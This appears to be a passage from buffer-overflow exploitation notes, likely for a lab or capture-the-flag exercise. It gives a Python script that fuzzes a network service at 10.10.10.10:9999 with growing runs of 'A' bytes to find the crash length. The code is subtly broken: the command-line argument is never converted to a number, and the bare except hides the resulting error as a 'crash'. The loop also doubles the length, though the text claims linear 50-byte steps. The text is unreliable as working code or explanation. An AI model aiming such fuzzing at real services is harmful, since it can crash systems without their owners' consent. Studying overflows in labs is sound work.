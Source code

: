 You gotta find the point the program crash, which you can use python.

```python
import socket
import sys
from time import sleep

ip, port = "10.10.10.10", 9999
fuzzer = sys.argv[1]
prefix = b"" # change this if necessary and make sure theres a space at the end.

while True:
	try:
		s = socket.socket()
		s.connect((ip, port))
		s.send(prefix + b"A"*fuzzer)
		sleep(1)
		fuzzer = fuzzer+fuzzer
	except:
		print(f"Crashed at {fuzzer} bytes")
		sys.exit()
```

Run this with 
Ex. `python3 fuzzer.py 50`
This will fuzz the port with 50 bytes then 100 then 150 etc.
